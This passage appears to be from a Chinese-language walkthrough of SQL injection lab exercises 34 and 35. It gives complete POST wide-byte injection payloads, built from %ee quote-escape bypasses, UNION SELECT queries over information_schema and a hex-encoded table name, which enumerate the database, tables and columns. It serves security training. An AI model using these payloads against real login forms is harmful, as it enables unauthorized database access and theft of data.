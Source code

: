 估计和上一题一样

## 34. POST型宽字节注入

这样的做法，已经比较熟悉了，看见表单抓包构建payload。。

* 查看有没有回显，显没有进行查看闭合方式，因为如果闭合方式不对的话，是会报错的
```
admin%ee' union select 1,2 #
```
![image](https://user-images.githubusercontent.com/76896357/115108242-e8402100-9fa1-11eb-98c1-56da982232db.png)

* 查库
```
uname=admin%ee' union select 1,database() #&passwd=admin&submit=Submit
```
![image](https://user-images.githubusercontent.com/76896357/115108290-32c19d80-9fa2-11eb-8bc1-0593bf408eaf.png)

* 查表
```
uname=admin%ee' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #&passwd=admin&submit=Submit
```
![image](https://user-images.githubusercontent.com/76896357/115108348-92b84400-9fa2-11eb-9da0-c54c555a1149.png)

* 查字段
```
uname=admin%ee' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #&passwd=admin&submit=Submit
```
![image](https://user-images.githubusercontent.com/76896357/115108418-f2165400-9fa2-11eb-8443-ed7484f40e79.png)

直接报错，根据错误也知道发生了啥

```
uname=admin%ee' union select 1,group_concat(column_name) from information_schema.columns where table_name=0x7573657273 #&passwd=admin&submit=Submit
```
![image](https://user-images.githubusercontent.com/76896357/115108450-1bcf7b00-9fa3-11eb-8cb8-9f80bf568404.png)

这样就和谐了。。。

过了，不说了。。。

## 35. 为什么要有。。。

![image](https://user-images.githubusercontent.com/76896357/115108517-7cf74e80-9fa3-11eb-848b-e11ce4ec9cc6.png)

看这个报错，你会发现，啊这，他好像没有闭合方式呀！！！

* 查看否是否有回显

![image](https://user-images.githubusercontent.com/76896357/115108541-9e583a80-9fa3-11eb-8179-01b65c93347c.png)
